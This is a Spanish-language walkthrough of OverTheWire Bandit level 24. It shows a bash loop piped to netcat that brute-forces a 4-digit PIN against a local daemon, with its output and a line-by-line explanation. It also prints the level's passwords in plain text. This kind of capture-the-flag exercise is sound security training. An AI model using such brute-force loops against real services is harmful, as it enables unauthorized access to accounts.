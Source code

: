 # Retos bandit

# Level 24

## Objetivo

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time.

## Datos de acceso al nivel
Contraseña del nivel: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Solución

Contraseña **bandit25**:  iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

```
bandit24@bandit:~$ for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002 | grep -v "error"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.

Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

bandit24@bandit:~$

```

## Notas

Descripción de:  **for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002 | grep -v "error"**

### 1. **`for i in {0000..9999};`**

Este es un bucle `for` que itera sobre un rango de números, desde `0000` hasta `9999`. En cada iteración, la variable `i` toma un valor en ese rango (es decir, desde 0000 hasta 9999, en formato de cuatro dígitos).

### 2. **`do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done`**

Para cada iteración del bucle, este comando ejecuta el `echo` que imprime la cadena `"gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"` seguida por el valor actual de la variable `i`. Básicamente, está generando una serie de cadenas en las que el número varía desde `0000` hasta `9999`.

### 3. **`| nc localhost 30002`**

El símbolo `|` (pipe) redirige la salida del comando anterior (es decir, la serie de cadenas generadas) al siguiente comando, que es `nc`. El comando `nc` (Netcat) se utiliza para establecer una conexión de red, en este caso con el `localhost` (el propio ordenador) en el puerto `30002`. El resultado es que las cadenas generadas se envían al servicio o aplicación que está escuchando en este puerto.

### 4. **`| grep -v "error"`**

Finalmente, la salida de la conexión Netcat es pasada al comando `grep`. `grep` busca patrones en el texto, y con la opción `-v`, está buscando todas las líneas que **no** contienen la palabra `"error"`. Así que cualquier salida que contenga "error" es descartada y solo se muestran las líneas que no lo contienen.

## Referencias


